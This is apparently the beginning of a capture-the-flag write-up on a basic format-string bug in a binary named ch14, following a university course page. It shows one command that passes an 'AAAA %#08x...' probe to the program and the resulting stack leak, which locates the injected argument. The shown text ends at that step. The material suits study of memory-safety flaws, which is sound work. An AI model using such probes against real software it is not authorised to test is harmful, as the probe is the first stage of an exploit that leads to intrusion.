# FOrmat string bug basic 2 writeup

Used https://www.usna.edu/Users/cs/aviv/classes/si485h/s17/units/06/unit.html as a guide.

First, lets use some simple string to look up into the stack and find our passed in argument.

```sh
./ch14 "AAAA %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x %#08x"

# returns [AAAA 0x80485f1 00000000 00000000 0x0000c2 0xbffffb74 0xb7fe1409 0xf63d4e2e 0x4030201 0x41414141 0x38783020 0x35383430 0x3020316]
```




